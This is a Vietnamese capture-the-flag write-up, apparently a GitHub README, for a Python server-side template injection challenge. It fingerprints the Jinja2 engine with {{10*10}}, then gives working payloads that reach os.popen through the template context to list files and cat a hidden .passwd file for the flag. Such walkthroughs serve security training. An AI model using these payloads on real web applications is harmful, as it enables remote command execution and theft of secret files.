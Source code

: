# Trần Mạnh Huy

* [1. Python - Server-side Template Injection Introduction](#1-python-server-side-template-injection-introduction)
* [2. Java - Server-side Template Injection](#2-java-server-side-template-injection)


## 1. Python - Server-side Template Injection Introduction

```
Statement

This service allows you to generate a web page. Use it to read the flag!

```

#### Đễ thấy ứng dụng nhận vào hai tham số trong đó giá trị content gặp phải lỗ hổng SSTI, thử với payload **{{10*10}}** trong phần content được server trả về kết quả: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_01.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_02.jpg)

Do kết quả trả về là "10101010101010101010" nên có thể xác nhận template được dùng ở đây là jinja2, còn nếu trả về 100 thì sẽ là template twig.

#### Đã xác định được template là jinja2, ta có thể build được payload khai thác từ nó
Dùng TemplateReference object để import các module bằng payload:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls').read() }}

```
Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_03.jpg)

#### Thay payload trên bằng {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls -lsa').read() }}

Thấy được file .passwd. Sửa payload thành : **{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('cat .passwd').read() }}** ta được pass để giải chall này

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_04.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_05.jpg)

